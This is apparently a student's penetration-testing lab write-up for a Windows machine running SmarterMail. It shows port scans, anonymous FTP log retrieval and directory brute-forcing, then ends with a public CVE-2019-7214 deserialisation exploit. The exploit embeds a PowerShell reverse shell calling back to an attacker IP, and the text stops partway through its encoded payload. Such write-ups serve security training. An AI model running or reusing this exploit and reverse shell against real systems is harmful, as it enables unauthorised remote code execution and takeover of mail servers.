




## Introduce



## Nmap
```
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 125 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  09:31PM       <DIR>          ImapRetrieval
| 03-03-26  04:14AM       <DIR>          Logs
| 04-29-20  09:31PM       <DIR>          PopRetrieval
|_04-29-20  09:32PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
5040/tcp  open  unknown       syn-ack ttl 125
9998/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Tue, 03 Mar 2026 12:23:37 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
|_http-favicon: Unknown favicon MD5: 9D7294CAAB5C2DF4CD916F53653714D5
|_http-server-header: Microsoft-IIS/10.0
17001/tcp open  remoting      syn-ack ttl 125 MS .NET Remoting services
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## SMB
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Algernon]
└─$ nxc smb 192.168.187.65  -u anonymous -p anonymous --shares           
SMB         192.168.187.65  445    ALGERNON         [*] Windows 10 / Server 2019 Build 18362 x64 (name:ALGERNON) (domain:algernon) (signing:False) (SMBv1:None)
SMB         192.168.187.65  445    ALGERNON         [-] algernon\anonymous:anonymous STATUS_LOGON_FAILURE
```

## FTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Algernon]
└─$ nxc ftp 192.168.187.65  -u anonymous -p anonymous --ls  
FTP         192.168.187.65  21     192.168.187.65   [+] anonymous:anonymous - Anonymous Login!
FTP         192.168.187.65  21     192.168.187.65   [*] Directory Listing
FTP         192.168.187.65  21     192.168.187.65   04-29-20  09:31PM       <DIR>          ImapRetrieval
FTP         192.168.187.65  21     192.168.187.65   03-03-26  04:14AM       <DIR>          Logs
FTP         192.168.187.65  21     192.168.187.65   04-29-20  09:31PM       <DIR>          PopRetrieval
FTP         192.168.187.65  21     192.168.187.65   04-29-20  09:32PM       <DIR>          Spool
```

```
ftp> cd Logs
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49688|)
150 Opening ASCII mode data connection.
04-29-20  10:26PM                  582 2020.04.29-delivery.log
04-29-20  10:15PM                    0 2020.04.29-profiler.log
04-29-20  10:26PM                  208 2020.04.29-smtpLog.log
04-29-20  10:26PM                  300 2020.04.29-xmppLog.log
05-12-20  02:36AM                  504 2020.05.12-administrative.log
05-12-20  02:36AM                  699 2020.05.12-delivery.log
05-12-20  01:06AM                    0 2020.05.12-profiler.log
05-12-20  02:36AM                  306 2020.05.12-smtpLog.log
05-12-20  02:36AM                  444 2020.05.12-xmppLog.log
05-13-20  02:46AM                  233 2020.05.13-delivery.log
05-13-20  02:47AM                    0 2020.05.13-profiler.log
05-13-20  02:46AM                  102 2020.05.13-smtpLog.log
05-13-20  02:46AM                  148 2020.05.13-xmppLog.log
05-15-20  12:16AM                  163 2020.05.15-delivery.log
05-15-20  12:16AM                    0 2020.05.15-profiler.log
05-15-20  12:16AM                  102 2020.05.15-smtpLog.log
05-15-20  12:16AM                  148 2020.05.15-xmppLog.log
05-27-20  07:45PM                  233 2020.05.27-delivery.log
05-27-20  07:45PM                    0 2020.05.27-profiler.log
05-27-20  07:45PM                  102 2020.05.27-smtpLog.log
05-27-20  07:45PM                  148 2020.05.27-xmppLog.log
06-01-20  05:51PM                  161 2020.06.01-delivery.log
06-01-20  05:51PM                    0 2020.06.01-profiler.log
06-01-20  05:51PM                  100 2020.06.01-smtpLog.log
06-01-20  05:51PM                  146 2020.06.01-xmppLog.log
07-09-20  11:48AM                  163 2020.07.09-delivery.log
07-09-20  11:48AM                    0 2020.07.09-profiler.log
07-09-20  11:48AM                  102 2020.07.09-smtpLog.log
07-09-20  11:48AM                  148 2020.07.09-xmppLog.log
07-12-20  07:58AM                  104 2020.07.12-delivery.log
07-12-20  07:58AM                    0 2020.07.12-profiler.log
07-12-20  07:58AM                  102 2020.07.12-smtpLog.log
07-12-20  07:58AM                  148 2020.07.12-xmppLog.log
07-28-20  04:00AM                  163 2020.07.28-delivery.log
07-28-20  04:00AM                    0 2020.07.28-profiler.log
07-28-20  04:00AM                  102 2020.07.28-smtpLog.log
07-28-20  04:00AM                  148 2020.07.28-xmppLog.log
12-02-21  07:29AM                  233 2021.12.02-delivery.log
12-02-21  07:27AM                  358 2021.12.02-imapLog.log
12-02-21  07:27AM                  358 2021.12.02-popLog.log
12-02-21  07:29AM                    0 2021.12.02-profiler.log
12-02-21  07:29AM                  460 2021.12.02-smtpLog.log
12-02-21  07:29AM                  553 2021.12.02-xmppLog.log
04-04-22  08:29AM                  231 2022.04.04-delivery.log
04-04-22  08:23AM                  358 2022.04.04-imapLog.log
04-04-22  08:23AM                  358 2022.04.04-popLog.log
04-04-22  08:29AM                    0 2022.04.04-profiler.log
04-04-22  08:29AM                  458 2022.04.04-smtpLog.log
04-04-22  08:29AM                  551 2022.04.04-xmppLog.log
05-02-22  06:55AM                 1027 2022.05.02-delivery.log
05-02-22  06:51AM                 1790 2022.05.02-imapLog.log
05-02-22  06:51AM                 1790 2022.05.02-popLog.log
05-02-22  05:35AM                    0 2022.05.02-profiler.log
05-02-22  06:55AM                 2240 2022.05.02-smtpLog.log
05-02-22  06:55AM                 2659 2022.05.02-xmppLog.log
01-06-25  03:55AM                  173 2025.01.06-delivery.log
01-06-25  03:54AM                  358 2025.01.06-imapLog.log
01-06-25  03:54AM                  358 2025.01.06-popLog.log
01-06-25  03:54AM                  408 2025.01.06-smtpLog.log
01-06-25  03:54AM                  455 2025.01.06-xmppLog.log
03-03-26  04:15AM                  112 2026.03.03-delivery.log
ftp> get 2020.04.29-delivery.log
local: 2020.04.29-delivery.log remote: 2020.04.29-delivery.log
229 Entering Extended Passive Mode (|||49685|)
550 The system cannot find the file specified. 
ftp> get 2026.03.03-delivery.log
local: 2026.03.03-delivery.log remote: 2026.03.03-delivery.log
229 Entering Extended Passive Mode (|||49686|)
550 The system cannot find the file specified. 
ftp> 
ftp> get 2020.05.12-administrative.log
local: 2020.05.12-administrative.log remote: 2020.05.12-administrative.log
229 Entering Extended Passive Mode (|||49690|)
125 Data connection already open; Transfer starting.
100% |*************************************************************************************************************************************|   504        5.69 KiB/s    00:00 ETA
226 Transfer complete.
504 bytes received in 00:00 (5.68 KiB/s)
```

* `2020.05.12-administrative.log`
```
03:35:45.726 [192.168.118.6] User @ calling create primary system admin, username: admin
03:35:47.054 [192.168.118.6] Webmail Attempting to login user: admin
03:35:47.054 [192.168.118.6] Webmail Login successful: With user admin
03:35:55.820 [192.168.118.6] Webmail Attempting to login user: admin
03:35:55.820 [192.168.118.6] Webmail Login successful: With user admin
03:36:00.195 [192.168.118.6] User admin@ calling set setup wizard settings
03:36:08.242 [192.168.118.6] User admin@ logging out
```
## 5040
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Algernon]
└─$ nc -nv 192.168.187.65 5040  
(UNKNOWN) [192.168.187.65] 5040 (?) open
help

ls
 
h
```

## 80 HTTP
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Algernon]
└─$ dirsearch -u http://192.168.187.65                                                                                            
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/Algernon/reports/http_192.168.187.65/_26-03-03_07-48-24.txt

Target: http://192.168.187.65/

[07:48:24] Starting: 
[07:48:27] 403 -  312B  - /%2e%2e//google.com                               
[07:48:27] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[07:48:27] 404 -    2KB - /.ashx                                            
[07:48:27] 404 -    2KB - /.asmx                                            
[07:48:33] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[07:48:35] 404 -    2KB - /admin%20/                                        
[07:48:35] 404 -    2KB - /admin.                                           
[07:48:41] 200 -    0B  - /aspnet_client/                                   
[07:48:41] 301 -  159B  - /aspnet_client  ->  http://192.168.187.65/aspnet_client/
[07:48:41] 404 -    2KB - /asset..                                          
[07:48:44] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[07:48:47] 400 -    3KB - /docpicker/internal_proxy/https/127.0.0.1:9043/ibm/console
[07:48:52] 404 -    2KB - /index.php.                                       
[07:48:52] 404 -    2KB - /javax.faces.resource.../                         
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/help/*
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/foo
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned
[07:48:52] 400 -    3KB - /jolokia/exec/com.sun.management:type=DiagnosticCommand/vmSystemProperties
[07:48:52] 400 -    3KB - /jolokia/exec/java.lang:type=Memory/gc
[07:48:52] 400 -    3KB - /jolokia/read/java.lang:type=*/HeapMemoryUsage    
[07:48:52] 400 -    3KB - /jolokia/read/java.lang:type=Memory/HeapMemoryUsage/used
[07:48:53] 400 -    3KB - /jolokia/search/*:j2eeType=J2EEServer,*
[07:48:53] 400 -    3KB - /jolokia/write/java.lang:type=Memory/Verbose/true 
[07:48:54] 404 -    2KB - /login.wdm%2e                                     
[07:49:02] 404 -    2KB - /rating_over.                                     
[07:49:04] 404 -    2KB - /service.asmx                                     
[07:49:06] 404 -    2KB - /static..                                         
[07:49:09] 403 -    2KB - /Trace.axd                                        
[07:49:09] 404 -    2KB - /umbraco/webservices/codeEditorSave.asmx          
[07:49:11] 404 -    2KB - /WEB-INF./                                        
[07:49:12] 404 -    2KB - /WebResource.axd?d=LER8t9aS                       
                                                                             
Task Completed
```

## 9998 HTTP
* dirsearch
```
┌──(kali㉿kali)-[~/Desktop/Pen200/Algernon]
└─$ dirsearch -u http://192.168.187.65:9998
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/Desktop/Pen200/Algernon/reports/http_192.168.187.65_9998/_26-03-03_07-51-50.txt

Target: http://192.168.187.65:9998/

[07:51:50] Starting: 
[07:52:03] 403 -  312B  - /%2e%2e//google.com
[07:52:03] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd             
[07:52:03] 200 -    0B  - /.ashx                                            
[07:52:03] 200 -    0B  - /.asmx                                            
[07:52:08] 401 -    1KB - /.well-known/apple-developer-merchant-domain-association
[07:52:08] 401 -    1KB - /.well-known/apple-app-site-association
[07:52:08] 401 -    1KB - /.well-known/ashrae
[07:52:08] 401 -    1KB - /.well-known/assetlinks.json
[07:52:08] 401 -    1KB - /.well-known/browserid
[07:52:08] 401 -    1KB - /.well-known/caldav
[07:52:08] 401 -    1KB - /.well-known/carddav
[07:52:08] 401 -    1KB - /.well-known/core
[07:52:08] 401 -    1KB - /.well-known/dnt-policy.txt
[07:52:08] 401 -    1KB - /.well-known/csvm
[07:52:08] 401 -    1KB - /.well-known/dnt
[07:52:08] 401 -    1KB - /.well-known/est
[07:52:08] 401 -    1KB - /.well-known/genid
[07:52:08] 401 -    1KB - /.well-known/hoba
[07:52:08] 401 -    1KB - /.well-known/host-meta
[07:52:08] 401 -    1KB - /.well-known/host-meta.json
[07:52:08] 401 -    1KB - /.well-known/jwks
[07:52:08] 401 -    1KB - /.well-known/jwks.json
[07:52:08] 401 -    1KB - /.well-known/keybase.txt
[07:52:08] 401 -    1KB - /.well-known/ni
[07:52:08] 401 -    1KB - /.well-known/openid-configuration
[07:52:08] 401 -    1KB - /.well-known/openorg
[07:52:08] 401 -    1KB - /.well-known/posh
[07:52:08] 401 -    1KB - /.well-known/reload-config
[07:52:08] 401 -    1KB - /.well-known/repute-template
[07:52:08] 401 -    1KB - /.well-known/security.txt
[07:52:08] 401 -    1KB - /.well-known/stun-key
[07:52:08] 401 -    1KB - /.well-known/time
[07:52:08] 401 -    1KB - /.well-known/timezone
[07:52:08] 401 -    1KB - /.well-known/void
[07:52:08] 401 -    1KB - /.well-known/webfinger
[07:52:09] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[07:52:12] 302 -  165B  - /admin.  ->  /Interface/errors/404.html?aspxerrorpath=/admin.
[07:52:18] 200 -    0B  - /api/2/issue/createmeta                           
[07:52:18] 302 -  146B  - /api/api  ->  /Error?aspxerrorpath=/api/api
[07:52:18] 302 -  151B  - /api/api-docs  ->  /Error?aspxerrorpath=/api/api-docs
[07:52:18] 302 -  150B  - /api/apidocs  ->  /Error?aspxerrorpath=/api/apidocs
[07:52:18] 302 -  163B  - /api/apidocs/swagger.json  ->  /Error?aspxerrorpath=/api/apidocs/swagger.json
[07:52:18] 302 -  159B  - /api/application.wadl  ->  /Error?aspxerrorpath=/api/application.wadl
[07:52:18] 302 -  148B  - /api/batch  ->  /Error?aspxerrorpath=/api/batch
[07:52:18] 302 -  155B  - /api/cask/graphql  ->  /Error?aspxerrorpath=/api/cask/graphql
[07:52:18] 302 -  153B  - /api/_swagger_/  ->  /Error?aspxerrorpath=/api/_swagger_/
[07:52:18] 302 -  155B  - /api/__swagger__/  ->  /Error?aspxerrorpath=/api/__swagger__/
[07:52:18] 302 -  149B  - /api/config  ->  /Error?aspxerrorpath=/api/config
[07:52:18] 302 -  147B  - /api/docs  ->  /Error?aspxerrorpath=/api/docs
[07:52:18] 302 -  148B  - /api/docs/  ->  /Error?aspxerrorpath=/api/docs/
[07:52:18] 302 -  152B  - /api/error_log  ->  /Error?aspxerrorpath=/api/error_log
[07:52:18] 302 -  153B  - /api/index.html  ->  /Error?aspxerrorpath=/api/index.html
[07:52:18] 302 -  149B  - /api/jsonws  ->  /Error?aspxerrorpath=/api/jsonws
[07:52:18] 302 -  156B  - /api/jsonws/invoke  ->  /Error?aspxerrorpath=/api/jsonws/invoke
[07:52:18] 302 -  153B  - /api/login.json  ->  /Error?aspxerrorpath=/api/login.json
[07:52:18] 200 -    0B  - /api/package_search/v4/documentation
[07:52:18] 302 -  148B  - /api/proxy  ->  /Error?aspxerrorpath=/api/proxy
[07:52:18] 302 -  152B  - /api/snapshots  ->  /Error?aspxerrorpath=/api/snapshots
[07:52:18] 302 -  150B  - /api/swagger  ->  /Error?aspxerrorpath=/api/swagger
[07:52:18] 302 -  160B  - /api/spec/swagger.json  ->  /Error?aspxerrorpath=/api/spec/swagger.json
[07:52:18] 302 -  158B  - /api/swagger-ui.html  ->  /Error?aspxerrorpath=/api/swagger-ui.html
[07:52:18] 302 -  153B  - /api/2/explore/  ->  /Error?aspxerrorpath=/api/2/explore/
[07:52:18] 302 -  150B  - /api/profile  ->  /Error?aspxerrorpath=/api/profile
[07:52:18] 302 -  155B  - /api/swagger.json  ->  /Error?aspxerrorpath=/api/swagger.json
[07:52:18] 302 -  155B  - /api/swagger.yaml  ->  /Error?aspxerrorpath=/api/swagger.yaml
[07:52:18] 302 -  154B  - /api/swagger.yml  ->  /Error?aspxerrorpath=/api/swagger.yml
[07:52:18] 200 -    0B  - /api/swagger/static/index.html
[07:52:18] 302 -  161B  - /api/swagger/index.html  ->  /Error?aspxerrorpath=/api/swagger/index.html
[07:52:18] 302 -  158B  - /api/swagger/swagger  ->  /Error?aspxerrorpath=/api/swagger/swagger
[07:52:18] 200 -    0B  - /api/swagger/ui/index
[07:52:18] 302 -  155B  - /api/timelion/run  ->  /Error?aspxerrorpath=/api/timelion/run
[07:52:18] 302 -  146B  - /api/v1/  ->  /Error?aspxerrorpath=/api/v1/
[07:52:18] 302 -  158B  - /api/v1/swagger.json  ->  /Error?aspxerrorpath=/api/v1/swagger.json
[07:52:18] 302 -  145B  - /api/v1  ->  /Error?aspxerrorpath=/api/v1
[07:52:18] 302 -  158B  - /api/v1/swagger.yaml  ->  /Error?aspxerrorpath=/api/v1/swagger.yaml
[07:52:18] 302 -  145B  - /api/v2  ->  /Error?aspxerrorpath=/api/v2
[07:52:18] 302 -  146B  - /api/v2/  ->  /Error?aspxerrorpath=/api/v2/
[07:52:18] 200 -    0B  - /api/v2/helpdesk/discover
[07:52:18] 302 -  158B  - /api/v2/swagger.json  ->  /Error?aspxerrorpath=/api/v2/swagger.json
[07:52:18] 302 -  158B  - /api/v2/swagger.yaml  ->  /Error?aspxerrorpath=/api/v2/swagger.yaml
[07:52:18] 302 -  145B  - /api/v3  ->  /Error?aspxerrorpath=/api/v3
[07:52:18] 302 -  145B  - /api/v4  ->  /Error?aspxerrorpath=/api/v4
[07:52:18] 302 -  150B  - /api/version  ->  /Error?aspxerrorpath=/api/version
[07:52:18] 302 -  149B  - /api/whoami  ->  /Error?aspxerrorpath=/api/whoami
[07:52:19] 302 -  166B  - /asset..  ->  /Interface/errors/404.html?aspxerrorpath=/asset..
[07:52:21] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[07:52:25] 500 -   36B  - /download                                         
[07:52:25] 500 -   36B  - /download/                                        
[07:52:26] 200 -   31KB - /favicon.ico                                      
[07:52:27] 301 -  156B  - /fonts  ->  http://192.168.187.65:9998/fonts/     
[07:52:29] 302 -  169B  - /index.php.  ->  /Interface/errors/404.html?aspxerrorpath=/index.php.
[07:52:29] 302 -  202B  - /javax.faces.resource.../WEB-INF/web.xml.jsf  ->  /Interface/errors/404.html?aspxerrorpath=/javax.faces.resource.../WEB-INF/web.xml.jsf
[07:52:29] 302 -  183B  - /javax.faces.resource.../  ->  /Interface/errors/404.html?aspxerrorpath=/javax.faces.resource.../
[07:52:31] 302 -  169B  - /login.wdm%2e  ->  /Interface/errors/404.html?aspxerrorpath=/login.wdm.
[07:52:34] 401 -    1KB - /p_/webdav/xmltools/minidom/xml/sax/saxutils/os/popen2?cmd=dir
[07:52:37] 302 -  171B  - /rating_over.  ->  /Interface/errors/404.html?aspxerrorpath=/rating_over.
[07:52:38] 301 -  158B  - /reports  ->  http://192.168.187.65:9998/reports/ 
[07:52:38] 301 -  158B  - /scripts  ->  http://192.168.187.65:9998/scripts/ 
[07:52:38] 200 -    0B  - /scripts/
[07:52:39] 200 -    0B  - /service.asmx                                     
[07:52:39] 301 -  159B  - /services  ->  http://192.168.187.65:9998/services/
[07:52:39] 200 -    0B  - /services/
[07:52:41] 302 -  167B  - /static..  ->  /Interface/errors/404.html?aspxerrorpath=/static..
[07:52:43] 200 -    0B  - /Trace.axd                                        
[07:52:43] 200 -    0B  - /umbraco/webservices/codeEditorSave.asmx          
[07:52:44] 200 -    0B  - /views/ajax/autocomplete/user/a                   
[07:52:44] 200 -    0B  - /views                                            
[07:52:44] 302 -  175B  - /WEB-INF./web.xml  ->  /Interface/errors/404.html?aspxerrorpath=/WEB-INF./web.xml
[07:52:44] 302 -  168B  - /WEB-INF./  ->  /Interface/errors/404.html?aspxerrorpath=/WEB-INF./
[07:52:45] 401 -    1KB - /webdav/index.html                                
[07:52:45] 401 -    1KB - /webdav/                                          
[07:52:45] 401 -    1KB - /webdav/servlet/webdav/
[07:52:45] 200 -    0B  - /WebResource.axd?d=LER8t9aS                       
                                                                             
Task Completed
```

* browser

  

  

  

* CVE-2019-7214
```python
# Exploit Title: SmarterMail Build 6985 - Remote Code Execution
# Exploit Author: 1F98D
# Original Author: Soroush Dalili
# Date: 10 May 2020
# Vendor Hompage: re
# CVE: CVE-2019-7214
# Tested on: Windows 10 x64
# References:
# https://www.nccgroup.trust/uk/our-research/technical-advisory-multiple-vulnerabilities-in-smartermail/
# 
# SmarterMail before build 6985 provides a .NET remoting endpoint
# which is vulnerable to a .NET deserialisation attack.
#
#!/usr/bin/python3
import base64
import socket
import sys
from struct import pack
HOST='192.168.187.65'
PORT=17001 #only this port works?
LHOST='192.168.45.219'
LPORT=80 #only this port works?
psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')
payload = 'AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAPIKL2MgcG93ZXJzaGVsbC5leGUgLWVuY29kZWRDb21tYW5kIFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhY